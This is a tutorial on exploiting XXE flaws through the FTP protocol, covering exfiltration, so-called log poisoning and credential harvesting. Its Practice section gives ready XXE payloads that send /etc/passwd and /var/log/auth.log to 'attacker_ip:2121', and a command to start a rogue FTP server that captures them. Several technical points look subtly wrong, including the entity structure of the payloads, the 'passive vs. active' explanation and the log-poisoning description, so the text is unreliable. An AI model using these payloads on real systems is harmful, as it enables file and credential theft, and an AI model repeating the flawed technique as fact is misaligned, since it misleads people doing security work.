

# FTP Protocol XXE

## Context

This article focuses on exploiting XML External Entity (XXE) vulnerabilities through the FTP protocol. The technique can be used for data exfiltration, log poisoning, and credential harvesting. To make the most of the content, you should have prior knowledge of XXE fundamentals, understand the basics of the FTP protocol, and be familiar with general protocol handler exploitation techniques.

## Theory

### FTP Protocol as an XXE Out-of-Band Channel

FTP Protocol XXE leverages FTP URIs in XML entities to trigger out-of-band interactions. This technique enables data exfiltration or causes side effects when the XML parser processes external entities referencing FTP URLs. The typical sequence is as follows: the attacker hosts an FTP server, crafts an XXE payload with an ftp:// URI, and then receives a connection and sensitive data from the vulnerable target.

### FTP XXE Data Exfiltration Mechanics

The vulnerability model for FTP XXE allows the leakage of sensitive files or environment variables via FTP commands. Data flow in this exploit involves the XML parser reading a file, embedding its content in FTP USER or PASS commands, and sending it to an attacker-controlled server.



### FTP Log Poisoning and Credential Harvesting via XXE

An implementation flaw in FTP servers can result in logs capturing injected data from XXE payloads, thus allowing log poisoning. Similarly, weaknesses in FTP protocol authentication prompts can be exploited to capture credentials or other arbitrary data.

### Passive vs. Active FTP XXE

In terms of enhancing the attack, Passive FTP XXE involves data being sent in the initial FTP connection via USER/PASS commands. Conversely, Active FTP XXE involves sending data via further FTP commands that may stage data retrieval or upload for deeper exfiltration.

## Practice

### FTP XXE Data Exfiltration via USER Command

This exploitation involves setting up a rogue FTP server to capture incoming credentials.

- **Set up a Rogue FTP Server:**
  - Initiate an attacker-controlled FTP server that logs USER/PASS commands.

    ```bash
    python3 -m pyftpdlib -p 2121
    ```

- **Craft and Deploy XXE Payload:**
  - Use the following XXE payload to exfiltrate the contents of `/etc/passwd` file via FTP:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121/%file;"><!ENTITY file SYSTEM "file:///etc/passwd">]><bar>&xxe;</bar>
    ```

  - Submit this payload to the vulnerable XML endpoint and monitor your FTP server for the exfiltrated data appearing in the USER command.

### FTP XXE Log Poisoning

This attack prepares the FTP server to log all incoming commands, including injected log file contents.

- **Prepare FTP Server:**
  - Ensure the server is ready to log commands.

- **Deploy XXE Log Injection Payload:**
  - Use this payload to inject contents from a log file into the FTP logs:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121/%payload;"><!ENTITY payload SYSTEM "file:///var/log/auth.log">]><bar>&xxe;</bar>
    ```

  - Submit the payload to the vulnerable XML endpoint and check the FTP server logs for the injected data.

### FTP XXE Credential Harvesting

This technique exploits FTP authentication for credential extraction.

- **Monitor for Authentication Attempts:**
  - Run an FTP server to capture any connection attempts and potential authentication data.

- **Trigger Authentication Attempts:**
  - Use the following XXE payload:

    ```xml
    <!DOCTYPE foo [<!ENTITY xxe SYSTEM "ftp://attacker_ip:2121">]><bar>&xxe;</bar>
    ```

  - Submit this payload via the vulnerable XML endpoint, and capture any authentication attempts or credentials from the FTP server logs.

## Tools

- **pyftpdlib**
- **tcpdump**
- **Wireshark** 